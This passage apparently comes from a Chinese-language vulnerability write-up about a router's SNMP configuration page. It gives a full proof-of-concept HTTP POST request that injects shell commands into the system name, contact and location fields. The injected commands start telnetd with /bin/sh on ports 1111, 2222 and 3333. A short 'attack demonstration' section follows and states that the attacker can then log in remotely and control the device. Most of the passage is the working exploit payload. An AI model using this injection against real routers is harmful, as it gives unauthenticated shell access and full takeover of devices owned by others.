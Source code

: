 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.1.1/sys_snmp.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

page=sys_snmp.htm&submitStatus=1&log_ch=1&snmpStatusChange=1&snmpStatus=0&snmp_Mib2SysName=router61120c%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%091111%ea&snmp_Mib2SysContact=winmt%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%092222%ea&snmp_Mib2SysLocation=winmt%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%093333%ea&snmp_GetCommunity=public&snmp_SetCommunity=private&snmp_TrapCommunity=public&snmp_SendTrap=
```  
  
  
**攻击演示**  
  
  
发送上述**Poc**中的请求报文。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBFY4BdKQhkcfkDtxnrMjibUPKDjlFfPVWf6SKaiaYJNIMbJG6T8Lxa8CQ/640?wx_fmt=other&from=appmsg "")  
  
  
攻击后，可通过远程登录控制设备（**2222**和**3333**端口也可以）。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBxOmypmKxNibM39QVS0DqPzdicwLHVjInnLlnTVD67xxwxj4XSCPac7QQ/640?wx_fmt=other&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMByWjy44yr5savzsJvxXiaMAJqJunY1kyHBNHP7uYAVyVQqwULN5VdCjg/640?wx_fmt=png&from=appmsg "")  
  
  
